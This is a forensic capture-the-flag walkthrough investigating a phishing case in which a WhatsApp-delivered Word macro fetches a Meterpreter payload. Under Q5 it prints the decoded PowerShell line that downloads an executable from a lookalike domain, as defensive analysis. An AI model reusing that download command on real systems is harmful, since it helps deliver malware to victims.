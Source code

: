 ```yaml
---
layout: single
ititle: Cyberdefenders - Phishy
excerpt: Analysis of an .ad1 file related to a phishing attack.
date: 2025-06-20
classes: wide
header:
  teaser: ../assets/images/sherlock-bumbleebe/
  teaser_home_page: true
  icon: ../assets/images/logo-icon.svg
categories:
   - cyberdefenders
   - dfir
tags:
   - autopsy
   - ftk imager
   - PasswordFox
---
```


We have been provided with a `.ad1` file, which we can be analyzed using FTK Imager. We have two options to review it. The first one is to upload the file as an Evidence Item and check the content through FTK interface; the second option is to mount the image on our system via FTK, that will let us to explore the content of the ad1 through our system. I will use the second option. 

![](../assets/images/cyber-phy/1.png)

After that, we can quickly go through the questions. 

------

<h3 style="color: #0d6efd;"> Q1 What is the hostname of the victim machine? </h3>

In order to answer this question we need to examine the SYSTEM hive, Located at: `C:\Windows\System32\config\SYSTEM`

Then, we need to upload this file into Registry Explorer, an Eric Zimmerman tool. 
Once we upload the file, we can find the computer name under: `ControlSet001\Control\ComputerName\ComputerName`

![](../assets/images/cyber-phy/2.png)

----

<h3 style="color: #0d6efd;"> Q2 What is the messaging app installed on the victim machine? </h3>

To answer this question, we need to navigate to the AppData directory. Within both the Local andRoaming directories, we will find the messaging app. 

----

<h3 style="color: #0d6efd;"> Q3 The attacker tricked the victim into downloading a malicious document. Provide the full download URL. </h3>

Well, to answer this question, I tried to use WhatsApp Viewer, but i got an error. So i use the following online tool, [sqliteviewer.app](https://sqliteviewer.app/#/msgstore.db/table/messages/). Just upload the msgstore.db file to the website, located at: `C:\Users\Semah\AppData\Roaming\WhatsApp\Databases`

![](../assets/images/cyber-phy/3.png)

------

<h3 style="color: #0d6efd;"> Q4 Multiple streams contain macros in the document. Provide the number of the highest stream. </h3>

To answer this question, we can use `oledumpm.py`, a python tool that allow us to analyze OLE files(old Word, Excel or PowerPoint documents). By applying the following command:

```bash
┌──(kali㉿kali)-[~/blue-labs/phishy]
└─$ oledump.py IPhone-Winners.doc
  1:       114 '\x01CompObj'
  2:      4096 '\x05DocumentSummaryInformation'
  3:      4096 '\x05SummaryInformation'
  4:      8473 '1Table'
  5:       501 'Macros/PROJECT'
  6:        68 'Macros/PROJECTwm'
  7:      3109 'Macros/VBA/_VBA_PROJECT'
  8:       800 'Macros/VBA/dir'
  9: M    1170 'Macros/VBA/eviliphone'
 10: M    5581 'Macros/VBA/iphoneevil'
 11:      4096 'WordDocument'
```

-------

<h3 style="color: #0d6efd;"> Q5 The macro executed a program. Provide the program name? </h3>

In order to answer this question, we can use `olevba` tool, we can install it with the following command: `pip install -U oletools`

Then, by executing the next command: 

`PS E:\Users\Semah\Downloads> olevba --deobf IPhone-Winners.doc`

We can see the following output: 

![](../assets/images/cyber-phy/4.png)

It is a base64 string, using `$ echo "<base64 string> | base64 -d`, finally we can a part of `powershell` script:

```bash 
invoke-webrequest -Uri 'http://appIe.com/Iphone.exe' -OutFile 'C:\Temp\IPhone.exe' -UseDefaultCredentials
```

-------

<h3 style="color: #0d6efd;"> Q6 The macro downloaded a malicious file. Provide the full download URL. </h3>

In the previous question, we can see the domain where malware downloads a windows executable, which is stored in a temporary directory.  

----

<h3 style="color: #0d6efd;"> Q7 Where was the malicious file downloaded to? (Provide the full path) </h3>


'C:\Temp\IPhone.exe'

-----

<h3 style="color: #0d6efd;"> Q8 What is the name of the framework used to create the malware? </h3> 

To answer this question, we need to get the hash of the malware using `Get-FileHas .\IPhone.exe`, which is : `72c677ba5bf40394361b3566b6bb2b1c0c5e726b10c9af2debf7384385ebdbd1`

Once we have the hash, we need to upload it to VirusTotal, we can see a reference to `mmeterpreter`, which is a powerfull and flexible payload in Metasploit that provides a shell for post-exploitation activities. 

![](../assets/images/cyber-phy/5.png)

-----

<h3 style="color: #0d6efd;"> Q9 What is the attacker's IP address? </h3>

In the previous virustotal analysis, in the `Behavior` section, we will find a `Memory Pattern IPs`, which is a ip found in the memory of an executed sample, in other words, a ip found on the malware strings. 

![](../assets/images/cyber-phy/6.png)

![](../assets/images/cyber-phy/7.png)

-----

<h3 style="color: #0d6efd;"> Q10 The fake giveaway used a login page to collect user information. Provide the full URL of the login page? </h3>


We can open the .ad1 file in Autopsy, navigate to this route: `C:\Users\<username>\AppData\Roaming\Mozilla\Firefox\Profiles\<profile folder>\places.sqlite` into the `moz_places` table. 

-----

<h3 style="color: #0d6efd;"> </h3>

![](../assets/images/cyber-phy/8.png)
